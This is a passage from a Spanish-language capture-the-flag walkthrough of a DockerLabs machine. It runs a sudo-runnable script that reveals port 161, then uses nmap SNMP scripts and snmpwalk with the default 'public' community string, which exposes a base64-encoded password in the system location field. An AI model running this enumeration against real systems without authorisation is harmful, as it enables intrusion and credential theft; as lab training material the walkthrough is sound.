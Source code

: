 Vemos que podemos ejecutar el script `/usr/local/bin/dead.sh` como el usuario `root`, por lo que haremos lo siguiente:

Vemos que no podemos leer el script, pero si lo ejecutamos vemos lo siguiente:

```shell
sudo /usr/local/bin/dead.sh
```

Info:

```
161
```

Y solo vemos este numero, podemos deducir que puede ser algun puerto que se haya levantado o algo parecido, vamos a comprobar si el puerto `161` esta levantado por `TCP`, pero veremos que no lo esta, por lo que probaremos por `UDP` y aqui veremos que si lo esta:

```shell
nmap -sU -p161 --script=snmp* <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 06:08 EST
Nmap scan report for lifeordead.dl (172.17.0.3)
Host is up (0.000091s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-info: 
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: 7f3cbe5245328e6700000000
|   snmpEngineBoots: 12
|_  snmpEngineTime: 3m57s
| snmp-sysdescr: Linux dockerlabs 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64
|_  System uptime: 3m58.58s (23858 timeticks)
| snmp-brute: 
|_  public - Valid credentials
MAC Address: 02:42:AC:11:00:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 16.61 seconds
```

Vemos que efectivamente esta abierto, por lo que vamos a probar a ver si se puede enumerar con la siguiente herramienta.

```shell
snmpwalk -v2c -c public <IP>
```

Info:

```
iso.3.6.1.2.1.1.1.0 = STRING: "Linux dockerlabs 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (35621) 0:05:56.21
iso.3.6.1.2.1.1.4.0 = STRING: "Me <admin@lifeordead.dl>"
iso.3.6.1.2.1.1.5.0 = STRING: "dockerlabs"
iso.3.6.1.2.1.1.6.0 = STRING: "This port must be disabled aW1wb3NpYmxlcGFzc3dvcmR1c2VyZmluYWw="
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
```